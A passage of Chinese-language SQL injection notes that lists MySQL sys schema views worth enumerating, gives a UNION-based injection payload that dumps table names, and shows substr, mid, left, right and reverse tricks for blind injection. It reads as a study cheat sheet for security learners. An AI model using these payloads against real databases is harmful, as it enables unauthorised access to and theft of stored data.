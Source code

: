 sys.x$schema_flattened_keys

sys.schema_table_statistics

sys.x$statement_analysis

上面这些表都有很多关键数据。可以在注入前看看里面有没有自己需要的数据

```python
select * from user where id = -1 union all select 1,2,3,group_concat(table_name)from sys.schema_table_statistics_with_buffer where table_schema=database();
```

# 字符串截取方法

### substr()

```python
SELECT SUBSTR((SELECT DATABASE()),2,1)
```

### mid()

```python
SELECT MID((SELECT DATABASE()),2,1)
```

### right()

表示截取字符串的右面几位。

使用方法：right(截取的字符串，截取长度)

```python
SELECT RIGHT((SELECT DATABASE()),5)
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364337182-9edcda31-2e8c-4d52-86da-8efbdc51d5d9.png#averageHue=%23f0da76&id=dK7Gg&originHeight=292&originWidth=488&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以用于盲注

ascii()或ord()返回传入字符串的首字母的ASCII码

### left()

表示截取字符串的左面几位。

使用方法：left(截取的字符串，截取长度)

```python
SELECT LEFT((SELECT DATABASE()),2)
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364337304-ddebd442-4d93-45bd-a706-2d5b9c841969.png#averageHue=%23d4baab&id=OWT60&originHeight=392&originWidth=391&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以配合reverse来把字符串逆转过来，那么此时第一位就是我们需要判断的。再结合ascii()或ord()返回传入字符串的首字母的ASCII码进行比较即可

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364337384-82cfb1f9-e0d7-416d-99fc-06b0aee6d073.png#averageHue=%23eac1ab&id=NSmfa&originHeight=319&originWidth=835&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
